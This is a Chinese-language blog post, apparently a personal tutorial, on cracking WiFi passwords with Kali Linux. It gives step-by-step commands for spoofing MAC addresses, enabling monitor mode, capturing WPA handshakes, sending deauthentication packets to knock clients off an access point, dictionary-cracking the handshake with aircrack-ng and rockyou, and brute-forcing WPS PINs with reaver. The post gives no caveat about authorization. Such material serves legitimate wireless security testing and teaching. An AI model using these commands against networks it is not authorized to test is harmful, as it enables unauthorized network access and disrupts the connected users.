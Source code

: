 ```yaml
---
title: Kali-Linux破解WIFI
categories:
  - kali
toc: false
date: 2018-11-07 09:05:46
tags:
---
```

摘要暂略。
<!-- more -->

一些参考链接：  
[无线安全专题01--kali破解WPA](https://www.jianshu.com/p/430ae3c978d9)。  
[无线安全专题_破解篇02--kali破解pin码](https://www.jianshu.com/p/a8439e777af7)。  
[Aircrack除破解WiFi密码外的趣味玩法](https://www.freebuf.com/articles/wireless/59809.html)。  
[完全教程 Aircrack-ng破解WEP、WPA-PSK加密利器](http://netsecurity.51cto.com/art/201105/264844.htm)。  

#### 查看无线网络
用`ifconfig`或`ip addr`等命令查看网络接口：
```
root@KL:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 11:22:33:44:55:66 brd ff:ff:ff:ff:ff:ff
    inet 192.168.43.129/24 brd 192.168.43.255 scope global dynamic noprefixroute eth0
       valid_lft 1522sec preferred_lft 1522sec
    inet6 fe80::20c:29ff:fea4:125/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 10:20:30:40:50:60 brd ff:ff:ff:ff:ff:ff
4: wlan1: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 1a:2b:3c:4d:5e:6f brd ff:ff:ff:ff:ff:ff
root@KL:~#
```
可知，此时有`wlan0`和`wlan1`两个无线网卡。

#### 修改MAC地址
```shell
macchanger --help
macchanger --mac=XX:XX:XX:XX:XX:XX device
macchanger --random device
# 例
ifconfig wlan0 down  # ip link set wlan0 down
macchanger --random wlan0
ifconfig wlan0 up    # ip link set wlan0 up
```

#### 无线网卡启动监听模式
```shell
airmon-ng <start|stop> <interface> [channel] airmon-ng <check> [kill]
# 例
airmon-ng check kill      # 列出可能的干扰程序并尝试清除它们
airmon-ng                 # 查看所有无线网卡的当前状态
airmon-ng start wlan0     # 在接口(wlan0)上启动监听(monitor)模式
airmon-ng                 # 查看所有无线网卡的当前状态(查看是否启动成功)
# 一般(wlan0)启动监听模式后名字会变为(wlan0mon)
airmon-ng stop  wlan0mon  # 禁用监听模式并返回到托管模式
airmon-ng                 # 查看所有无线网卡的当前状态(查看是否禁用成功)
```

#### 捕获握手包
```shell
airodump-ng [options] <interface name>
--ivs                 : Save only captured IVs
--write      <prefix> : Dump file prefix
-w                    : same as --write
--bssid     <bssid>   : Filter APs by BSSID
--channel <channels>  : Capture on specific channels
# 例
airodump-ng wlan0mon  # 捕获WIFI范围内的无线信息
airodump-ng --ivs --bssid 1a:2b:3c:4d:5e:6f --write ./testData wlan0mon  # 捕获握手包并保存到testData开头的文件中
```
备注：`--ivs`仅保存捕获的IVs报文。可以缩减文件大小。  
备注：可以用`ivstools --convert data.cap data.ivs`把cap文件转为ivs文件以缩减大小。

#### 解除认证攻击
```shell
aireplay-ng [options] <replay interface>
 -a <bssid>
    Set Access Point MAC address.
-c <dmac>
    Set destination MAC address.
-0 <count>, --deauth=<count>
    This attack sends deauthentication packets to one or more clients which are currently associated with a particular access point.  Deauthenticating  clients  can  be done  for  a  number  of reasons: Recovering a hidden ESSID. This is an ESSID which is not being broadcast. Another term for this is "cloaked" or Capturing WPA/WPA2 handshakes by forcing clients to reauthenticate or Generate ARP requests (Windows clients sometimes flush their ARP  cache  when  disconnected).   Of  course,  this attack is totally useless if there are no associated wireless client or on fake authentications.
    这个攻击发送解除认证的数据包给一个或多个客户端(当前与指定AP关联)。期望能捕获WPA/WPA2握手包。
# 例
aireplay-ng -a AP的MAC -c Client的MAC --deauth=3 wlan0mon
```

#### 字段解释
`man airodump-ng`的最下方有这个例子。
```
airodump-ng -c 9 wlan0mon

Here is an example screenshot:

-----------------------------------------------------------------------
CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ BAT: 2 hours 10 mins ][ WPA handshake: 00:14:6C:7E:40:80

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID

00:09:5B:1C:AA:1D   11  16       10        0    0  11  54. OPN              <length: 7>
00:14:6C:7A:41:81   34 100       57       14    1   9  11  WEP  WEP         bigbear
00:14:6C:7E:40:80   32 100      752       73    2   9  54  WPA  TKIP   PSK  teddy

BSSID              STATION            PWR   Rate   Lost   Frames  Probes

00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   11-11     2       14  bigbear
(not associated)   00:14:A4:3F:8D:13   19   11-11     0        4  mossy
00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1    11-2     0        5  bigbear
00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   36-24     0       99  teddy
-----------------------------------------------------------------------
  BSSID: MAC地址。
    PWR: 信号强度。数字越大(负数越接近0)信号越强。-1表示无效值。
    RXQ: 略。
Beacons: AP(access point)发送的信号浮标的数量。最低速率下每个AP每秒大约发送10个信标。
  #Data: 捕获的数据包的数量。
    #/s: 每秒的数据包的数量(测量最近10秒内的数据)。
     CH: channel号(从信标包中取得)。
     MB: AP支持的最大速度。不用管它。常见值：11、22、54、54.、54e、54e.、。
    ENC: 正在使用中的加密算法。
 CIPHER: 检测到的加密解密引擎？
   AUTH: 使用的身份验证协议。
  ESSID: 所谓的SSID，WIFI的名字。
STATION: (连到AP上(和)没有连到AP上)的client的MAC地址。
   Rate: 速率。第1个数字：AP到client的最新速率；第二个数字：client到AP的最新速率。
   Lost: 来自client的包的丢失的数量。
```

#### 恢复WEP/WPA-PSK密码
```
aircrack-ng [options] <.cap / .ivs file(s)>
-b <bssid> : target selection: access point's MAC
-p <nbcpu> : # of CPU to use  (default: all CPUs)
-q         : enable quiet mode (no status output)
-l <file>  : write key to file
-w <words> : path to wordlist(s) filename(s)
             Here is a list of wordlists: 
             http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists
# 例
aircrack-ng -b AP的MAC -w 字典文件 -l 结果文件  cap文件或ivs文件
```
在[Aircrack-ng](http://www.aircrack-ng.org/)的[Windows](https://download.aircrack-ng.org/aircrack-ng-1.4-win.zip)能下载到`aircrack-ng.exe`程序。然后我们就可以在Windows下进行破解了。Windows下可以如下执行：
```bat
cd .\aircrack-ng-1.4-win\bin\32bit\
aircrack-ng.exe -b 1A:2B:3C:4D:5E:6F -w C:\字典\dict.txt  D:/data/testData*.cap  -l D:/data/testData_result.txt
```

#### KaliLinux自带的字典
[wordlists | Penetration Testing Tools](https://tools.kali.org/password-attacks/wordlists)。  
```shell
字典路径:  /usr/share/wordlists/rockyou.txt.gz
# 解压命令
gunzip -c /usr/share/wordlists/rockyou.txt.gz > ./rockyou.txt
```

#### 爆破WPS的pin码
扫描WIFI。WPS的Lck为No的都可以爆破试试。
```shell
wash --help
# 例
wash -i wlan0mon
```
WPS的pin码的爆破的命令：
```shell
reaver -i <interface> -b <target bssid> -vv
-i, --interface=<wlan>          Name of the monitor-mode interface to use
-b, --bssid=<mac>               BSSID of the target AP
-c, --channel=<channel>         Set the 802.11 channel for the interface (implies -f)
-v, --verbose                   Display non-critical warnings (-vv or -vvv for more)
-d, --delay=<seconds>           Set the delay between pin attempts [1]
-t, --timeout=<seconds>         Set the receive timeout period [10]
-S, --dh-small                  Use small DH keys to improve crack speed
# 例
reaver -i wlan0mon -b 00:14:6C:7A:41:81 -S -v
```

#### 其他

* 我该怎么装软件？  
`Kali Linux`和`Ubuntu`都是`Debian`的分支。你可以`apt-get install gcc`安装软件。  

* 怎么禁用`Automatic suspend`？
```
Automatic suspend
Computer will suspend very soon because of inactivity.
```
The solution is to disable automatic suspend:
```
Open GNOME Control Center, go to Power tab (or simply gnome-control-center power)
In Suspend & Power Button set Automatic suspend, to Off when Plugged In.
```
